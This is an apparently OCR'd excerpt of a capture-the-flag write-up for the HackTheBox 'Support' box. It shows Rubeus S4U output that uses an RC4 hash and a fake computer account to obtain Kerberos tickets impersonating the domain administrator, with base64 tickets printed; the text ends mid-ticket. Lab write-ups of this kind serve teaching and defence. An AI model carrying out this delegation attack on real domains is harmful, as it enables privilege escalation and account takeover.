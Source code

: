       v1.6.4
    
    [*] Action: S4U
    
    [*] Using rc4_hmac hash: B1809AB221A7E1F4545BD9E24E49D5F4
    [*] Building AS-REQ (w/ preauth) for: 'support.htb\0xdfFakeComputer$'
    [+] TGT request successful!
    [*] base64(ticket.kirbi):
    
          doIFvjCCBbqgAwIBBaEDAgEWooIEzTCCBMlhggTFMIIEwaADAgEFoQ0bC1NVUFBPUlQuSFRCoiAwHqAD
          AgECoRcwFRsGa3JidGd0GwtzdXBwb3J0Lmh0YqOCBIcwggSDoAMCARKhAwIBAqKCBHUEggRxOeKt6Ird
          teB+aO1v2heZp/GctaiPKQ3PL7uv6vECkSfrJZ96wZxhiTn96yEK0iBG6iu/lW45R67fkTiYVjrCwJ2x
          0Iv4AVbat5CjivLd2vBB3P8TMt/2yS3dFuDHxRxt43pJY/BCMq867ckAYrmVJZkV4J2Gr+bhLCrX0iEN
          9gX7iTMtKRrE9Pb6hZsu4CUpxMs8UpgJXI+kvKgE7EXwVTd5sIWNHjIu5Lvpuqk8jx98Zy11md6ZvcTc
          qbWis+ZIb/BSHdu35F4TtpMt48RZdeoXvrFcmYbzfzi3yVSZ8I3T50v2HdZj9GaGWknvCSUpGLsrW42P
          cfVBy3cvx9nfVTgNlF0mFMl1NOkf41HsixyBoJjLay2oxAJOmfZDGdjzA88rlx5Ox0z6Llj8RsmsJz6q
          59turK4Kaa7zUGxIMFhb+Snxb2YJm3HAVxdOsxnynQOpAWdOU8lztOaGiM9x6d0VADbvt0QJAjdJkFw4
          sbK6wQ8/Ptu02FCseBd2aUII0AAWFiWwrECPbGeHv/0tqP67Q8BhQNXF6QN7wGJQmLAz8f5a5KaX9Vo6
          2plegvVBrfxQ2SY5wN5xosvUC+U2MX636+8N68TRQca3nFGn3E7Du8sDwPUuK2m/POgWcP4UDixT0cXr
          PcnQOSc/FhukCBqLLMjdGgojyZoF5FHUwpDGfugZ4G0WcrLeZd/L4AhHw395gr3AeFCCawQ9XaUTjlOR
          oh2S3UJCZIizzk7Wiq320lYSFc2m0lMIPYr8i/70DAdlOUus6K2zArE2NnATqHKO6vAs7fy1p+KmF3B/
          6B1g6yr6D9aQo8xMP3qd3oyt4QslVlgqp+GBxh+cjWYv/rU6OFnGdtEa0xxLH/C1raCUXR6Rf1bEKn+t
          o49wwMt6qun7jcE3ugx/T09vU5Uwowit/X+qq3ePO3FDhxjPWHApbOW7wTU3f/kLo4fD6RGPaheYWOba
          BP88mxKCRhUy1hUtZ+kjamRCJD9QHXAj8RIoIrNMaEkpWI0Z7qw4RHwgPdY9vAqff1qkAhp5r5w+QC9y
          Y5JQx/gzruHzHXqYe7D1vADY1oiEQG7jsrbwY/i9I+qKn5BCFv7DXvjHpxWPKN/ndQnTnBbLwQb6ebh0
          CkH6GO4pDi7CpYVxdESomq3INLsrljYZuCafnJSqriyxw9d1ijpEosqzm6vLPbceDj41LVEquCkkaVsM
          pPdHPDGu0ojm+XmLaJGeSe2kNvoRd4htT9zux07Q/Mj8OF/gRxaQOEppIxh4YAKftSvWuU5jzzBtp9aq
          Ji+amwKGy5YfgrLPgIcWNMw93nZlcPBvM87WPFWuZ0vZq9eLwEa8+0rjnWAs2K7/kLWl0rYlt7fhSwcg
          lLKZn8OnFYHPLh2TcC6sXvxp6QGBj26CDZItT1iGukoG7EQ1poHRFRcsSPQyrRko5Z7naJy68tIZNu48
          H7mwyIdSySElDF1uTzq+IxB89wRZEKLw/0RXtOWD0M6RRDIhI0wrVv63PCwozFB+ieeLo4HcMIHZoAMC
          AQCigdEEgc59gcswgciggcUwgcIwgb+gGzAZoAMCARehEgQQ1yZNKdbgtnM3PxOJKOgHv6ENGwtTVVBQ
          T1JULkhUQqIeMBygAwIBAaEVMBMbETB4ZGZGYWtlQ29tcHV0ZXIkowcDBQBA4QAApREYDzIwMjIwNTI3
          MTkzODE3WqYRGA8yMDIyMDUyODA1MzgxN1qnERgPMjAyMjA2MDMxOTM4MTdaqA0bC1NVUFBPUlQuSFRC
          qSAwHqADAgECoRcwFRsGa3JidGd0GwtzdXBwb3J0Lmh0Yg==
    
    
    [*] Action: S4U
    
    [*] Using domain controller: dc.support.htb (fe80::4995:178:63d7:93c1%6)
    [*] Building S4U2self request for: '0xdfFakeComputer$@SUPPORT.HTB'
    [*] Sending S4U2self request
    [+] S4U2self success!
    [*] Got a TGS for 'administrator' to '0xdfFakeComputer$@SUPPORT.HTB'
    [*] base64(ticket.kirbi):
    
          doIFtjCCBbKgAwIBBaEDAgEWooIEyzCCBMdhggTDMIIEv6ADAgEFoQ0bC1NVUFBPUlQuSFRCoh4wHKAD
          AgEBoRUwExsRMHhkZkZha2VDb21wdXRlciSjggSHMIIEg6ADAgEXoQMCAQGiggR1BIIEcZ6UqORuDjTI
          ovz9MkcGwxl8rVEyAFKXAVPrmN+iR2r8sUCOBmZS/ytvLBy6XGsg0GalPlL0IcINTxVrQbP1icxnroBo
          eLTqv3H901wMy7wS8cUgDBF54mAVlbucFvRq5TvGA+csHNjAV4b8RWhHbXlDkMRXZfTVmaQimnOzH103
          UvTuGuXKext8Z0STVMasbHm9FzP9vFL0d55G6vUO4nw29h4AoQ2o4Pi9+5Xm0zFnZaCx0yRYa8RFbBB6
          dcTEioS0aN1bnHG2WfuWVmJ6876loH+lV1oP8Rc9z9cN1lsSAEkDEK05RGBXbb6sWNNHPFVUDkcpcSg1
          Gg5NM5AI7jfgHSkRuuVe8dSrc5wD9KADcsaRSqL2zE9ykF691m/m8Lnj//dNWbx5HZ0UVQL3LKKXt9lP
          /HAPrZAVQ7WDGmTs1k+sdGOtkvmBrIpzqaqC53o2mOCezjxfBlT5SsgXu/M9bZa1PR9QAN6WuKW+/XUN
          asQzZ0PHY1CvkJQ3/w8LLJEl6X60vFK7WoOLPLa40pBfX/RnWakWB/FzF0ht5z4valdoo3LgMfxUtcVu
          LMARwoUSNJD5aOT1xRk10BYkSDtbqtx1VZGjCMjyDf+7Czqog1GIotk+GoCk3yt2lCCFpW/jp+zSmQMN
          8iAviSrrJHc4MaMa81EzDoB6Gj2ZMWowKL1Dv/ByE8XbSjd6rhWwVIhPBjaCKQCtI6qVoyfGnUmrHRt8
          oCtumbkyBahCJQ6tnSp3k8dyVAu9fPx968jNOSzVq+XGttjCt/U8Z0FNFsHcpIIQDP6Z5619aYemNvWh
          XG0q194XhH4xeSfcEfV0gFV4ppAjWgaQEXCfwp4j7HuC1DujEvk5co/2unh9TeNtKXkEd3ji+RwUXAd7
          YHlqh3QJiA2OXe2bm742HtNJOMVkNHB5Fg5wtcvVororI+2IzYQudpQy8sWzVHyEoUpEbTnZGMQL45nb
          TwSK1aSg71d5Bzr6Y5NB/ipmhYP45lA2hRci7RZAOn/tt7T6yhTjQsn1/RfC9XPax/vpzBYI5d5HFAO5
          4BBcA7mMXQHJ0XOkOIHo87AeLyW8UjshDgw6sjeebtAWxXjjuvUqNOkfuxXAAvP4OZIs4qA1hRp+jZj8
          KlrRqDqiqCmAD1Li7SGDMgUA8OlX+7leb/ZouUX4/edRVqZDLvT/nxmHN8BzQipvq/YkkEAwIdvisvR9
          JBCr248djlp7ZsZRGWKaNLlkB2o6pfqOZwx3wNrKjz44/HR51tYx7qaiRnuhAt0Xeyf5OK1Y6HYk/Xev
          VzKUoCcVoZQS8cYWNRlanlE4kdhKl40us2bny8GIEvKoDnt0NYWr5WaUohi7gK0g9sw29FfgqSDOnU7q
          x2QUkLlT0x3ZeqwwTIS+odRAUh+4SP+dDf/ip77FSRM+krPERNZoE9W0QAhPGPHf3C/3mxt8MnESZJ+I
          TL3dYzFTDXjg7OWb3MJ/cNziBCpQX726jeHuey6+iuUhPWJEu72qWdQRjoW09eBqhaOB1jCB06ADAgEA
          ooHLBIHIfYHFMIHCoIG/MIG8MIG5oBswGaADAgEXoRIEEFgqzBwaCN/nUkRZaYlagIShDRsLU1VQUE9S